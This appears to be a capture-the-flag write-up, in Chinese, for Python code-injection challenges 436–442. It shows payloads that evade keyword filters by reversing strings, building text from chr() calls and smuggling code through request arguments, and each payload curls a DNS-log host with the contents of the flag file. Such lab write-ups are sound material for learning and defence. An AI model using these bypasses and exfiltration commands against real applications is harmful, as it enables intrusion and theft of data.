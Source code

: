 > 436过滤了`os|open|system|read|eval|builtins|curl|_|getattr`

> 437过滤了`os|open|system|read|eval|builtins|curl|_|getattr`

> 438过滤了`os|open|system|read|eval|builtins|curl|_|getattr|{`

> 439过滤了`os|open|system|read|eval|builtins|curl|_|getattr|{`

> **python里面可以用分号执行多条语句**

像yu师傅的切片倒序+exec()

```
?code=str(exec(')"nc.golsnd.xxx.`*f/ tac` lruc"(metsys.so ;so tropmi'[::-1]))
```



## 440

> 过滤了`os|open|system|read|eval|builtins|curl|_|getattr|{|'|"`
>
> 没有引号，可以用chr构造字符串

```python
p = "import os;os.system('curl `cat /f*`.0kfz6y.dnslog.cn')"
c = ""
for i in p:
  c += "chr({})%2b".format(ord(i))
print("?code=str(exec("+c[:-3]+"))")
```

## 441

```
?code=str(exec(request.args.get(chr(97))))&a=import os;os.system('curl `cat /f*`.xxx.dnslog.cn')
```

## 442

> 过滤了数字，找些特殊的字符串就好
> 像yu师傅：`request.method`
>
> 或者用`str(True)`
>
> 也可以用`len(str(True))`还有`True-(-True)`配合运算符来构造数字
>
> ![](https://i.loli.net/2021/11/08/C94NGnAl6jOtv8r.png)

```
?code=str(exec(request.args.get(request.method)))&get=import os;os.system('curl `cat /f*`.xxx.dnslog.cn')

?code=str(exec(request.args.get(str(True))))&True=import os;os.system('curl `cat /f*`.xxx.dnslog.cn')
```
